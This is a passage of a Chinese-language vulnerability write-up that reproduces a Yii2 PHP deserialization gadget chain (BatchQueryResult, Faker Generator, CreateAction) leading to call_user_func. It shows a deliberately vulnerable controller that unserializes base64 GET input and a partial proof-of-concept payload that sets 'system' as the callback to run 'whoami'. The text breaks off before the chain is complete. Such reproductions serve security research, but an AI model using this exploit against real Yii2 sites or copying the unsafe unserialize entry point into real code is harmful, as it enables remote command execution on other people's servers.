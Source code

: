 
整体利用链如下：

1.yii\db\BatchQueryResult-> __destruct->rest

2.Faker\Generator->call->format->call_user_func_array

3.yii\rest\CreateAction->run-> call_user_func



其实如果close方法带有参数的话,可以不用再去寻找一个无参函数回调了

laravel5.4的反序列化洞就是这样的,可惜我目前也只看了那一个链子



## **漏洞复现**

因为这只是一条反序列化链还需要一个反序列化入口需要自己创建

先创建一个action:TestController.php在controller文件夹下作为反序列化的入口点

![image-20210803132157717](images/9.png) 

 

```
<?php

namespace app\controllers;

use Yii;
use yii\web\Controller;

class TestController extends Controller
{
    public function actionIndex(){
        $name = Yii::$app->request->get('test');
        return unserialize(base64_decode($name));    
    }

}
```

poc1

![image-20210803132320253](images/10.png) 

```
<?php
namespace yii\rest{
    class CreateAction{
        public $checkAccess;
        public $id;
        public function __construct(){
            $this->checkAccess='system';
            $this->id='whoami';
        }
    }
}
namespace Faker{
    use yii\rest\CreateAction;
    class Generator{
        protected $formatters=array();
        public function __construct()
        {
            $this->formatters['close']=[new CreateAction,'run'];
        }
    }
}
```